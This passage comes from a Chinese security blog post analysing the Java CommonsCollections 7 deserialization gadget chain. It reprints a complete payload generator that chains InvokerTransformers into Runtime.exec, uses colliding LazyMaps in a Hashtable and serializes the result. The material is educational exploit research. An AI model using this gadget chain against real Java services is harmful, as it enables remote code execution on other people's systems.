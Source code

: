 > 原文链接: https://www.anquanke.com//post/id/248169 


# CC第7链HashTable触发点深入分析


                                阅读量   
                                **30294**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t016c13e5a5e697f9b8.jpg)](https://p3.ssl.qhimg.com/t016c13e5a5e697f9b8.jpg)



## 起因

CC（CommonsCollections）链系列是Java安全必经之路，复习到CC7的`lazyMap2.remove("yy");`代码，网上文章解释的不是很清楚，不明白为什么要这样做，于是打算深入做一个分析



## 回顾

贴出网上广泛流传的CC第7链，笔者将带大家做个简单的回顾

```
Transformer[] fakeTransformer = new Transformer[]`{``}`;

Transformer[] transformers = new Transformer[] `{`
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]`{`String.class, Class[].class`}`, new Object[]`{`"getRuntime", new Class[0]`}`),
    new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`),
    new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"calc"`}`)
`}`;

Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);

Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
lazyMap1.put("yy", 1);

Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
lazyMap2.put("zZ", 1);

Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "test");

hashtable.put(lazyMap2, "test");

Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");
field.setAccessible(true);
field.set(chainedTransformer, transformers);

lazyMap2.remove("yy");

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(hashtable);
```